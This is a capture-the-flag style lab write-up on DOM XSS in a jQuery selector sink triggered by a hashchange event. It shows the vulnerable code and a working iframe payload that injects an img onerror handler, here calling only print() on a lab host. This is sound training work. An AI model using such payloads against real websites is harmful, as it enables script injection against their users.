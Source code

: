 # Lab 6: DOM XSS in jQuery selector sink using a hashchange event

---

## 🎯 Mission Description  
This lab has a DOM XSS vulnerability because it uses jQuery's `$()` selector with data taken directly from `location.hash` without sanitization. The vulnerable jQuery version interprets injected HTML, allowing arbitrary JavaScript execution when the hash changes.

---

## 🎯 Mission Objective  
Trigger the `print()` function in the victim's browser.

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the source code and found:

   ```javascript
   $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
   });

→ This takes whatever is after the # in the URL, decodes it, and places it inside the :contains() selector. jQuery 1.8.2 will treat HTML in the selector as actual DOM elements.

    ❌ First try (direct injection in hash):

    https://LAB-ID.web-security-academy.net/#<img src=x onerror=print()>

    Result:
    Code didn’t execute immediately because the event only fires when the hash changes after page load.

    ✅ Working approach:

        Use an <iframe> to load the page with a harmless hash.

        On the iframe’s onload, append the malicious payload to src, causing a hash change and triggering the vulnerable code.

✅ Final Payload

<iframe src="https://LAB-ID.web-security-academy.net//#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

🔎 Which results in:

<section class="blog-list">
    <h2><img src="x" onerror="print()"></h2>
</section>

💥 print() executes as soon as the hashchange event fires.
🧠 Notes

    Vulnerability is due to unsafe use of user input inside jQuery selectors.

    Old jQuery versions (< 3.5.0) can interpret injected HTML in selectors.

    Payload only triggers when the hash actually changes, hence the need for the iframe trick.

✅ Status: Solved 🎉
